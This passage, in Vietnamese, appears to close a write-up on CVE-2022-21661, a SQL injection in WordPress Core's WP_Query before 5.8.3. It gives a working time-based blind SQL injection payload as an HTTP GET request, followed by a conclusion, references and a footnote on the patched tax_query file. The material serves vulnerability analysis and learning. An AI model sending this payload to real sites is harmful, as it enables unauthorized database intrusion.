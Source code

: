 Thay giá trị của `terms` bằng payload SQLi:

```http
GET /demo/?terms=1)+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a)+%23+ HTTP/1.1
```

![Detect](detect.png "Kết quả phản hồi cho thấy truy vấn chậm do payload hoạt động")

---

## Conclusion

Lỗ hổng **CVE-2022-21661** trong **WordPress Core** trước phiên bản **5.8.3**, quay ngược đến tận phiên bản **3.7.37**, xuất phát từ việc làm sạch dữ liệu (**sanitization**) không đúng cách trong `WP_Query` dẫn đến lỗ hổng SQL Injection.

---

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[CVE-2022-21661 Detail](https://www.cve.org/CVERecord?id=CVE-2022-21661)

---

## Notes

[^tax_query]: Vì patch nằm trong file **src/wp-includes/class-wp-tax-query.php**, file này định nghĩa class `WP_Tax_Query`, chịu trách nhiệm xử lý tham số `tax_query` trong `WP_Query`. Nếu có thay đổi trong file này thì gần như chắc chắn nó liên quan đến quá trình **parse/validate** của `tax_query`.

---